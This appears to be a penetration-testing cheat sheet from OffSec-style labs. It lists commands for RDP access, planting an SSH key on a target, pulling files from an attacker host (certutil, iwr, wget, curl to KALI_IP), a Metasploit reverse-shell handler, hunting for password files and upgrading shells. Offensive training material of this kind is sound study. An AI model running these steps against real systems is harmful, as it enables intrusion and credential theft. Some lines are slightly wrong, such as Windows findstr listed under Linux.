 
| [[01 General#Connecting to RDP\|Connecting to RDP]] | [[01 General#Adding SSH Public Key\|Adding SSH Public Key]] | [[01 General#File Transfers\|File Transfers]] | [[01 General#Handler\|Handler]] |
| --------------------------------------------------- | ----------------------------------------------------------- | --------------------------------------------- | ------------------------------- |
| [[01 General#File Search\|File Search]]             | [[01 General#Shell Upgrading\|Shell Upgrading]]             |                                               |                                 |
## Connecting to RDP
```shell
kali@kali:~$ xfreerdp /u:USERNAME /p:PASSWORD /v:TARGET_IP /cert-ignore /drive:local,/home/kali/Desktop /dynamic-resolution
```
## Adding SSH Public Key
```shell
kali@kali:~$ ssh-keygen -t rsa -b 4096 # give any password

# Copy id_rsa.pub file(in Kali ~/.ssh dir) to ~/home/USER/.ssh/authorized_keys file (in target machine)

kali@kali:~$ chmod 700 ~/.ssh
kali@kali:~$ chmod 600 ~/.ssh/authorized_keys

kali@kali:~$ ssh USER@TARGET_IP
# Enter password
```
## File Transfers
### Netcat
```shell
Receiver:~$ nc -lvp 1234 > OUTPUT_FILE
Sender:~$ nc TARGET_IP 1234 < INPUT_FILE
```
### Windows
```shell
kali@kali:~$ python3 -m http.server 80 # start http server

# PowerShell
PS C:\Users\offsec> iwr -uri http://KALI_IP/FILE -Outfile OUTPUT_FILE

# CMD
C:\Users\offsec> certutil -urlcache -split -f "http://KALI_IP/FILE" OUTPUT_FILE

# SMB
kali@kali:~$ impacket-smbserver -smb2support test .
C:\Users\offsec> copy \\KALI_IP\test\FILE . # from Kali to Win
C:\Users\offsec> copy FILE \\KALI_IP\test # from Win to Kali
```
### Linux
```shell
kali@kali:~$ python3 -m http.server 80 # start http server

kali@kali:~$ wget http://KALI_IP/FILE
kali@kali:~$ curl http://KALI_IP/FILE OUTPUT_FILE # might work on Win too
```
## Handler
```shell
msf6> use exploit/multi/handler
msf6 exploit(multi/handler)>  set PAYLOAD <PAYLOAD_NAME>
msf6 exploit(multi/handler)> set LHOST <KALI_IP>
msf6 exploit(multi/handler)> set LPORT <PORT>
msf6 exploit(multi/handler)> set ExitOnSession false
msf6 exploit(multi/handler)> exploit -j
```
## File Search
- Windows
	```powershell
	# Search for config files in XAMPP
	PS C:\Users\offsec> Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue 

	# Search user filesystem for any readable text file
	PS C:\Users\offsec> Get-ChildItem -Path C:\Users\offsec -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

	# See EVERYTHING (in that current directory and subdirectories)
	PS C:\Users\offsec> tree /F

	# Find password stuffs
	dir /s *pass* == *cred* == *vnc* == *.config*

	# can replace pass with known usernames
	```
- Linux
	```shell
	# Search for specific filenames
	kali@kali:~$ find / -iname local.txt 2>/dev/null

	# Search for existence of binary
	kali@kali:~$ whereis nc
	
	# Find password stuffs
	kali@kali:~$ findstr /si password *.txt  
	kali@kali:~$ findstr /si password *.xml  
	kali@kali:~$ findstr /si password *.ini  
	kali@kali:~$ Findstr /si password *.config 
	kali@kali:~$ findstr /si pass/pwd *.ini

	# can replace password with known usernames
	```
## Shell Upgrading
- Python
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
- Penelope
```shell
# Use Penelope listener to stabilize and upgrade shell automatically
kali@kali:~$ penelope <PORT>
```